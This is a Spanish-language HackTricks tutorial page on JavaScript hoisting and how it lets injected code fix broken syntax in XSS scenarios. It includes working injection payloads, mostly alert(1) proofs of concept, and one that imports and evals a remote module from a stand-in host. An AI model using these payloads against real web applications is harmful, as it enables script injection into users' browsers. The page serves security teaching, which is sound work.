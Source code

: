 # Elevación de JS

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

## Información Básica

En el lenguaje JavaScript, se describe un mecanismo conocido como **Elevación** donde las declaraciones de variables, funciones, clases o importaciones se elevan conceptualmente hasta la parte superior de su ámbito antes de que se ejecute el código. Este proceso es realizado automáticamente por el motor de JavaScript, que recorre el script en múltiples pasadas.

Durante la primera pasada, el motor analiza el código para verificar errores de sintaxis y lo transforma en un árbol de sintaxis abstracto. Esta fase incluye la elevación, un proceso donde ciertas declaraciones se mueven a la parte superior del contexto de ejecución. Si la fase de análisis es exitosa, indicando que no hay errores de sintaxis, la ejecución del script continúa.

Es crucial entender que:

1. El script debe estar libre de errores de sintaxis para que ocurra la ejecución. Las reglas de sintaxis deben ser estrictamente seguidas.
2. La ubicación del código dentro del script afecta la ejecución debido a la elevación, aunque el código ejecutado puede diferir de su representación textual.

#### Tipos de Elevación

Según la información de MDN, existen cuatro tipos distintos de elevación en JavaScript:

1. **Elevación de Valor**: Permite el uso del valor de una variable dentro de su ámbito antes de su línea de declaración.
2. **Elevación de Declaración**: Permite hacer referencia a una variable dentro de su ámbito antes de su declaración sin causar un `ReferenceError`, pero el valor de la variable será `undefined`.
3. Este tipo altera el comportamiento dentro de su ámbito debido a la declaración de la variable antes de su línea de declaración real.
4. Los efectos secundarios de la declaración ocurren antes de que el resto del código que la contiene sea evaluado.

En detalle, las declaraciones de funciones exhiben el comportamiento de elevación del tipo 1. La palabra clave `var` demuestra el comportamiento del tipo 2. Las declaraciones léxicas, que incluyen `let`, `const` y `class`, muestran el comportamiento del tipo 3. Por último, las declaraciones `import` son únicas en el sentido de que se elevan con los comportamientos del tipo 1 y tipo 4.

## Escenarios

Por lo tanto, si tienes escenarios donde puedes **Inyectar código JS después de que se use un objeto no declarado**, podrías **corregir la sintaxis** declarándolo (para que tu código se ejecute en lugar de arrojar un error):
```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```

```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```

```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
return 1;
}
alert(1);
```

```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie('leo','INJECTION')
test['cookie','injection']
```
## Más Escenarios
```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```

```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")


// The imported module:
// module.js
var x = {
y: {
z: function(param) {
eval(param);
}
}
};

export { x };
```

```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//`
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
if(config){
return;
}
// TODO handle missing config for: https://try-to-catch.glitch.me/"+`
let config;`-alert(1)`//`+"
} catch {
fetch("/error", {
method: "POST",
body: {
url:"https://try-to-catch.glitch.me/"+`
let config;`-alert(1)-`//`+""
}
})
}
```
## Referencias

* [https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios](https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios)
* [https://developer.mozilla.org/en-US/docs/Glossary/Hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting)
* [https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/](https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta convertirte en un héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
